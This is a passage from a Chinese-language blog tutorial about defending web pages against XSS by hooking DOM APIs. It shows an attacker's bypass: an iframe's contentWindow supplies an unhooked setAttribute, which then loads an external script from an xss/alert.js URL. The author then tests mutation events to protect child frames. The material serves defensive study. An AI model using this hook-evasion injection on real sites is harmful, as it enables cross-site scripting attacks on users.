 果然还是

```js
function call() { [native code] }
```
[Run](http://jsfiddle.net/zjcqoo/YFBVn/)


现在，我们大可放心的使用 call 和 apply，再也不用鼓捣那堆随机属性了。

不过这种随机+隐藏的属性，今后还是有用武之地的，常常用来给公开的对象做个秘密的记号，所以没有白折腾。

到此，我们终于可以松口气了。


## 新页面反射

别高兴的太早，真正的难题还在后面呢。

既然人家想破解，是会用尽各种手段的，并不局限于纯脚本。因为这是在网页里，攻击者们还可以呼唤出各种变幻莫测的浏览器功能，来躲避我们。

最简单的，就是创建一个框架页面，然后通过 contentWindow 即可获得一个全新的环境：

```js
// 反射出纯净的接口
var frm = document.createElement('iframe');
document.body.appendChild(frm);
var raw_fn = frm.contentWindow.Element.prototype.setAttribute;

// 创建脚本
var el = document.createElement('script');
raw_fn.call(el, 'SRC', 'http://www.etherdream.com/xss/alert.js');
document.body.appendChild(el);
```
[Run](http://jsfiddle.net/zjcqoo/886ub/)


这时，我们的钩子程序就被瞬间秒杀了。

尽管同源页面之间是可以相互访问，但其所在的环境却是隔离的。子页面所有的一切都是独立的副本，完全不受主页面影响。

不过，既然能够访问子页面，显然也能给它们的环境安装上钩子。每当有新的框架元素出现时，我们就立即对其注入防护程序，让用户获取到的 contentWindow 已是带有钩子的。

类似传统的应用程序，每当调用其他程序时，安全软件需将新创建的进程加以防护。

你说会这很容易办到。将 createElement 方法勾住，然后在里面判断创建的是不是框架元素，如果是的话就直接防护子页面，不就可以了吗？

显然，这是经不起实践的。事实上，只要测试下你就会发现，未挂载到主节点的框架元素，contentWindow 始终是 null。也就是说，必须在调用 appendChild 之后才开始初始化子页面。

因此，我们得借助之前研究的节点挂载事件，找到一个能在 appendChild 之后，但在用户获取 contentWindow 之前触发的事件。

```js
var observer = new MutationObserver(function(mutations) {
	console.log('MutationObserver:', mutations);
});
observer.observe(document, {
	subtree: true,
	childList: true
});

document.addEventListener('DOMNodeInserted', function(e) {
	console.log('DOMNodeInserted:', e);
}, true);


// 反射出纯净的接口
var frm = document.createElement('iframe');

console.warn('begin');
document.body.appendChild(frm);
console.warn('end');

```